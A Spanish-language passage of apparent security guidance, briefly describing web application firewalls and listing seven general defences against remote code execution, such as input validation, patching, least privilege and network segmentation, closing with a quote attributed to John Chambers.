El WAF protege las aplicaciones web examinando el tráfico entrante. Detecta y bloquea patrones sospechosos antes de que lleguen a la aplicación, como intentos masivos de inicio de sesión o inyecciones maliciosas.

=== RCE

==== 1. Validación y Sanitización de Entradas

La mayoría de los ataques RCE aprovechan vulnerabilidades como la inyección o deserialización insegura. Para prevenirlos, es fundamental validar y sanear todas las entradas del usuario, evitando el uso de funciones peligrosas como eval() o exec() que ejecutan contenido arbitrario.

==== 2. Gestión de Parches y Actualizaciones

Mantén sistemas operativos, aplicaciones y dependencias siempre actualizados. Muchas vulnerabilidades que permiten RCE ya son conocidas y cuentan con parches disponibles.

==== 3. Principio de Mínimos Privilegios

Durante las pruebas, observamos que los comandos se ejecutaban con privilegios de root. Para evitar esto, es importante que los servicios se ejecuten con los permisos mínimos necesarios, reduciendo así el impacto de un posible ataque.

==== 4. Desactivación de Funcionalidades Innecesarias

Deshabilita módulos, extensiones o plugins que no sean estrictamente necesarios. Cada componente extra aumenta la superficie de ataque y puede introducir vulnerabilidades.

==== 5. Gestión Segura de Memoria

Algunos ataques RCE explotan errores como los desbordamientos de búfer. Realiza análisis de seguridad periódicos para identificar fallos en la administración de memoria y corregirlos a tiempo.

==== 6. Inspección del Tráfico de Red

Los ataques RCE suelen realizarse de forma remota a través de la red. Utiliza herramientas de inspección profunda del tráfico (como WAF o firewalls de nueva generación) para bloquear intentos de explotación y detectar actividad remota sospechosa.

==== 7. Control de Acceso y Segmentación

Un atacante que consigue ejecutar código remotamente puede intentar moverse lateralmente en la red. La segmentación de red, el control de acceso y una arquitectura de confianza cero ayudan a limitar el alcance del atacante y proteger los sistemas más críticos.

----
"Existen dos tipos de empresas: las que han sido hackeadas y las que aún no saben que fueron hackeadas."

- John Chambers
----